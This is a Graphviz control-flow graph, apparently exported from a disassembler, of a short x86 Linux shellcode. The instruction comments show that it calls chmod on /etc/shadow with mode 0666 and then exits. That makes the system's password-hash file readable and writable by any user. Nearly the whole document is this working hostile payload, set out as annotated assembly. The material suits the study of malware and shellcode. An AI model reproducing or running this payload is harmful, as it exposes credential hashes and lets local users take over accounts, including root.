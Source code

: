 digraph code {
	graph [bgcolor=azure fontsize=8 fontname="Courier" splines="ortho"];
	node [fillcolor=gray style=filled shape=box];
	edge [arrowhead="normal"];
	"0x00000000" -> "0x00000071" [color="#5f8700"];
	"0x00000000" -> "0x0000000e" [color="#e03030"];
	"0x00000000" [URL="fcn.00000000/0x00000000", fillcolor="palegreen",color="#e03030", fontname="Courier",label=";-- oeax:\l;-- eax:\l;-- ebx:\l;-- ecx:\l;-- edx:\l;-- esi:\l;-- edi:\l;-- eflags:\l(fcn) fcn.00000000 36\l  fcn.00000000 ();\l0x00000000      cdq                ; sets EDX 0 if EAX is positive\l0x00000001      push 0xf           ; 15 ; 15 - sys_chmod\l0x00000003      pop eax            ; sys_chmod\l0x00000004      push edx           ; push 0x0\l0x00000005      call 0x16          ; pushes /etc/shadow address on the stack\l0x0000000a      das                ; /etc/shadow\l0x0000000b      je 0x71            ; data\l"]
	"0x0000000e" -> "0x00000079" [color="#5f8700"];
	"0x0000000e" -> "0x00000011" [color="#e03030"];
	"0x0000000e" [URL="fcn.00000000/0x0000000e", fillcolor="white",color="#e03030", fontname="Courier",label="0x0000000e      das                ; data\l0x0000000f      jae 0x79           ; data\l"]
	"0x00000011" -> "0x00000016" [color="#5f8700"];
	"0x00000011" -> "0x00000016" [color="#e03030"];
	"0x00000011" [URL="fcn.00000000/0x00000011", fillcolor="white",color="#e03030", fontname="Courier",label="0x00000011      popal              ; data\l0x00000012           .byte 0x64    ; data\l0x00000013      outsd dx, dword [esi] ; data\l0x00000014      ja 0x16            ; data\l"]
	"0x00000016" [URL="fcn.00000000/0x00000016", fillcolor="white",color="#e03030", fontname="Courier",label="0x00000016      pop ebx            ; pops /etc/shadow address into ebx\l0x00000017      push 0x1b6         ; 438 ; octal 0666\l0x0000001c      pop ecx            ; mode_t mode\l0x0000001d      int 0x80           ; sys_chmod\l0x0000001f      push 1             ; 1 ; sys_exit\l0x00000021      pop eax            ; sys_exit => eax\l0x00000022      int 0x80           ; sys_exit\l"]
}
